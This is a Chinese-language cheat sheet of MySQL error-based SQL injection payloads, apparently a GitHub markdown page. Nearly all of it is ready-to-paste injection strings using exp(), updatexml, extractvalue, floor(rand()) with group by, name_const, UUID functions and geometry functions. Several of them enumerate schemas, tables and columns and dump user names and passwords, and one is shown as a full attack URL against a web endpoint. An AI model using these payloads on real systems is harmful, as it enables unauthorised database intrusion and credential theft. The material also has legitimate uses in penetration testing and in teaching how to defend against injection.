

# MySQL报错注入

#### 速查表：



### 一般前提：union被过滤时

### exp():

```sql
exp(~(select * from(select user())a))
#~符号为运算符，意思为一元字符反转
exp(710-(表达式))#真不报错，假报错
```

适用版本：5.5.5\~5.5.49

#### 还有类似的函数如pow(),abs(),cot()。

```sql
pow(1+(表达式),99999999999)
cot(表达式)
```

#### 大数操作报错：

```sql
select !(select * from(select user())a)-~0;

#~0=18446744073709551615
```

### 新的方式：

#### updataxml：

```sql
 updatexml(1,concat(0x7e,(select user()),0x7e),1)
 #0x7e为~
 #使用版本5.1.5+
```

#### extractvalue:

```sql
extractvalue(1,concat(0x7e,(select user()),0x7e))

```

#### rand()+group()+count():

```sql
select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a;

爆库
select 1 from ( select count(*),(concat((select schema_name from information_schema.schemata limit 0,1),’|’,floor(rand(0)*2)))x from information_schema.tables group by x )a;

http://www.hackblog.cn/sql.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

爆表
select 1 from (select count(*),(concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),’|’,floor(rand(0)*2)))x from information_schema.tables group by x)a;

爆字段
select 1 from (select count(*),(concat((select column_name from information_schema.columns where table_schema=database() and table_name=‘users’ limit 0,1),’|’,floor(rand(0)*2)))x from information_schema.tables group by x)a;

爆数据
select 1 from (select count(*),(concat((select concat(name,’|’,passwd,’|’,birth) from users limit 0,1),’|’,floor(rand(0)*2)))x from information_schema.tables group by x)a;

select 1 from(select count(*),concat((select (select (SELECT concat(0x23,name,0x3a,passwd,0x23) FROM users limit 0,1)) from information_schema.tables limit 3,1),floor(rand(0)*2))x from information_schema.tables group by x)a

```

#### 不存在函数：

```sql
select a();
#可用来爆数据库
```

#### name\_const():

```sql
select * from(select name_const(version(),0x1),name_const(version(),0x1))a;
#仅可取数据库版本信息
```

#### uuid相关函数:

```sql
#适用版本：8.0.x
 SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
 SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));

```

#### 几何函数（ \*）：

```sql

GeometryCollection：id=1 AND GeometryCollection((select * from (select* from(select user())a)b))

polygon()：id=1 AND polygon((select * from(select * from(select user())a)b))

multipoint()：id=1 AND multipoint((select * from(select * from(select user())a)b))

multilinestring()：id=1 AND multilinestring((select * from(select * from(select user())a)b))

linestring()：id=1 AND LINESTRING((select * from(select * from(select user())a)b))

multipolygon() ：id=1 AND multipolygon((select * from(select * from(select user())a)b))
```
